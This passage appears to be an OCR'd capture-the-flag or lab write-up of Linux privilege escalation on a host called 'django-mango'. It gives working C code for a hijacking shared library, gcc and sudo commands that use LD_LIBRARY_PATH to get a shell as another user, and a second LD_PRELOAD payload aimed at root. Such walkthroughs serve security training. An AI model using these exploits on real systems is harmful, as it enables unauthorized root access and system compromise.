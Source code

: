 void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        system("/bin/bash -p");
}

```

// Now i will compile it.

```gcc -shared -o /tmp/libdl.so.2 -fPIC exploit.c -ldl```

// Now giving permission.

```chmod +x /tmp/libdl.so.2```

//now run it with ```/bin/ls```.

```sudo -u mango  LD_LIBRARY_PATH=/tmp /bin/ls```

// I got mango shell $$$$.

```
subho@django-mango:~$ sudo -u mango  LD_LIBRARY_PATH=/tmp /bin/ls
/bin/ls: /tmp/libdl.so.2: no version information available (required by /lib/x86_64-linux-gnu/libselinux.so.1)
mango@django-mango:/home/subho$ id
uid=1003(mango) gid=1003(mango) groups=1003(mango)
```

```sudo -l```

```
Matching Defaults entries for mango on django-mango:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User mango may run the following commands on django-mango:
    (ALL) SETENV: NOPASSWD: /bin/pwd

```

// now I have to exploit ```LD_PRELOAD to``` to escalate my privileges.

```nano exploit.c```

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> // For setuid and setgid
#include <dlfcn.h>

void my_init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
